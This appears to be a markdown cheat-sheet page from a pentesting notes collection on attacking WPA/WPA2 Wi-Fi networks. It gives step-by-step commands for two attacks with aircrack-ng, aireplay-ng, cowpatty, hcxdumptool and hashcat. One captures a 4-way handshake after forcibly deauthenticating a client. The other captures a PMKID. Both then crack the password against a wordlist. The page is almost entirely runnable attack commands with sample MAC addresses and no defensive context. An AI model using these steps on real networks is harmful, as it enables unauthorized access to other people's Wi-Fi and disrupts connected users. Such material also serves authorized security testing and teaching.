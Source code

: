 ```yaml
---
title: WPA/WPA2
parent: Wireless Attack
layout: default
nav_order: 3
---
```


You can disable monitor mode anytime with `sudo airmon-ng stop wlan0mon`\
If want to browse without GUI use `wget -qO- http://random`

## 4-Way Handshake

1. Monitor mode:\
   `sudo airmon-ng start wlan0`
2. Confirm it is in and get the interface name:\
   `iwconfig`
3. Start with this to find the network interested in:\
   `sudo airodump-ng wlan0mon --band abg`
4. Once you find it be specific on channel, also write it to file (optional to use `--bssid`):\
   `sudo airodump-ng wlan0mon -c 1 -w WPAfile`
5. Open ANOTHER TERMINAL and deauth a target: (a is AP, c is client)\
   `sudo aireplay-ng -0 5 -a 80:2D:BF:FE:13:83 -c 8A:00:A9:9B:ED:1A wlan0mon`
6. Should see WPA Handshake on airodump. (Optional) To ensure it is valid use:\
   `cowpatty -c -r WPAfile-01.cap`
7. Crack using aircrack:\
   `aircrack-ng -w /wordlist.txt -0 WPAfile-01.cap`
8. Crack directly using cowpatty with wordlist:\
   `cowpatty -r WPAfile-01.cap -f /wordlist.txt -s SSIDhere`


## PMKID Attack

1. Monitor mode:\
   `sudo airmon-ng start wlan0`
2. Confirm it is in and get the interface name:\
   `iwconfig`
3. Run this to ensure it is vulnerable: (should see PMKID for ESSID)\
   `hcxdumptool -i wlan0mon --enable_status=3`
4. Open NEW TERMINAL and run:\
   `airodump-ng wlan0mon --essid ESSIDNAMEHERE`
5. Again run this:\
   `hcxdumptool -i wlan0mon --enable_status=3 --filterlist_ap=APBSSID --filtermode=2 -o TESTPMKID.pcap`
6. Convert it to a format hashcat can crack:\
   `hcxpcapngtool -o hash TESTPMKID.pcap`
7. Crack it with hashcat:\
   `hashcat -m 22000 --force hash /wordlist.txt`